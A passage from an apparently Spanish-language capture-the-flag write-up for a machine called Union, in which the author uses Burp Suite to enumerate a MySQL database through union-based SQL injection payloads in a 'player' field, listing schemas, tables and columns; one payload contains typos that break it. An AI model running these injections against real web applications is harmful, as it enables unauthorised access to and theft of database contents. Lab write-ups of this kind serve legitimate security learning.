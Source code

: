 Lanzo unas inyecciones, la típica de `admin' or 1=1-- -` y las "order by", con estas me sale la misma respuesta que en la web. Pero si pruebo la inyección union se muestra algo distinto:

![Sqli_1]({{ 'assets/img/writeups/Union/sqli_1.png' | relative_url }}){: .center-image }

Tiene toda la pinta que la explotación va ir por aquí.

Como se ve en la foto, si pongo el número 1 en union select(una columna) sale este mensaje "Sorry, 1 you are not eligible due to already qualifying.". Probaré con más números en órden ascendente; `admin' union select 1,2-- -` con este y siguientes vuelve a salir el mensaje primero de "Congratulations..", así que deduzco que por detrás solo hay una columna, ya que es donde sale un mensaje distinto.

Confirmaré que es vulnerable a SQLi con algún comando básico de información como puede ser @@version o version().

![Sqli_2]({{ 'assets/img/writeups/Union/sqli_2.png' | relative_url }}){: .center-image }

Y sale la versión, en esta ocasión la del sistema operativo. Yo esperaba la de la base da datos pero bueeeno. Aun así, todo perfecto, es vulnerable a SQli tipo Union Based.

Vamos a sacar todo lo que podamos de la base de datos. Estas son las peticiones que mandaré:
```
Todo lo hago desde el BurpSuite, en el campo player:

admin' union select database()-- -
--> Como respuesta a esto me da november. Esta inyección es para sacar la base de datos actual, que en este caso es november.

admin' union select schema_name from information_schema.schemata-- -
--> mysql. Esta inyección es para sacar todas las bases de datos. Si solo sale una posiblemente no pueda sacar más de una vez, entonces puedes usuar el limit o el group_concat. Más cómodo el group_concat. Ejemplos de uso de limit:

admin' union select schema_name from information_schema.schemata limit 0,1-- -
--> mysql

admin' union select schema_name from information_schema.schemata limit 1,1-- -
--> information_schema

admin' union select schema_name from information_schema.schemata limit 4,1-- -
--> november. En total hay 5 bases de datos.

Ejemplo uso de group_concat:

admin' union select group_concat(shcema_name) from informacion_schema.schemata-- -

```
Empezaré por averiguar las tablas y la data de la base de datos que más me interesan, que son november y mysql. Empiezo por november:
``` 
Sigo desde el BurpSuite desde el campo player:

admin' union select table_name from information_schema.tables where table_schema="november" limit 0,1-- -
--> flag. El limit 1,1 es players. Por lo tanto hay dos tablas en november; flag y players.

--> Otra forma más fácil de hacerlo es con el group_concat:
admin' union select group_concat(table_name) from information_schema.tables where table_schema="november"-- -
--> Y saldrían directamente las dos tablas existentes.

admin' union select group_concat(column_name) from information_schema.columns where table_schema="november" and table_name="flag"-- -
--> one. Solo hay una columna llamada one en la tabla flag.

```